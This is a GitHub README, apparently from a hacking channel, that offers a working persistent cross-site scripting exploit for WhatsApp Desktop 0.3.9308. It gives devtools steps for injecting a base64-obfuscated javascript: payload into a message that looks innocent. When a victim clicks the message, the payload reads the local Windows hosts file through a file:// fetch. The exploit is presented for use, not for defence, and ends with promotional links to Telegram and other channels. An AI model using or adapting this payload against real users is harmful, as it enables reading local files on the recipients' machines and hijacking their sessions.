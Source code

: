# ![Pic](https://raw.githubusercontent.com/attakercyebr/Whatsapp-Desktop-session-hijacking-/main/1.jpg) 


## Description:
----------------------
- // Title: WhatsApp Desktop 0.3.9308 - Persistent Cross-Site Scripting

- // Date: 2020-01-21

- // Vendor Homepage: https://www.whatsapp.com

- // Software Link: https://web.whatsapp.com/desktop/windows/release/x64/WhatsAppSetup.exe

- // Software Link: https://web.whatsapp.com/desktop/mac/files/WhatsApp.dmg

- // Version: 0.3.9308

- // Tested On: Mac OS, Windows, iPhone

## Get a license
----------------------
- 🎁 Totally free for all channel members.


## how to work :
----------------------
- // step 1: open WhatsApp Web and enter a conversation (Will only work on WhatsApp Web source code as compiled with version 0.3.9308)

- // step 2: open devtools and search in all files "t=e.id"

- // step 3: after prettifying, set a breakpoint at the line where "t = e.id" can be found

- // step 4: paste "https://example.com" in the text box and hit "Enter"

- // step 5: when the code stops at the breakpoint, paste the following exploit code in the console and hit "Enter"

- // step 6: press F8 in order for the execution to continue

- // result: a message should be sent to the victim that once is clicked will execute the payload above

## Code
----------------------

```javascript
var payload = `(async function() {
alert(navigator.userAgent);
(async function() {
// read "file:///C:/windows/system32/drivers/etc/hosts" content
const r = await fetch(atob('ZmlsZTovLy9DOi93aW5kb3dzL3N5c3RlbTMyL2RyaXZlcnMvZXRjL2hvc3Rz'));
const t = await r.text();
alert(t);
}())
}())`;

payload = `javascript:"https://example.com";eval(atob("${btoa(payload)}"))`;

e.__x_matchedText = payload;

e.__x_body = `
Innocent text

${payload}

More Innocent text
`;

```

## video:
----------------------
- 


## Visit the following channels and sites for more training and tools:
----------------------
- 🔞 https://m4nifest0.com
- 🔞 https://m4nifest0.group
- 🔞 https://m4nifest0.shop
- 🔞 https://t.me/M4nifest0

----------------------

<h2>
<p align="center">	
</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://t.me/M4nifest0">
		<img src="https://img.shields.io/badge/Telegram-%23000000.svg?&style=for-the-badge&logo=Telegram&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://twitter.com/_M4nifest0_">
		<img src="https://img.shields.io/badge/twitter-%231DA1F2.svg?&style=for-the-badge&logo=twitter&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://m4nifest0.com">
		<img src="https://img.shields.io/badge/WebSite-%234A154B.svg?&style=for-the-badge&logo=slack&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
</p>
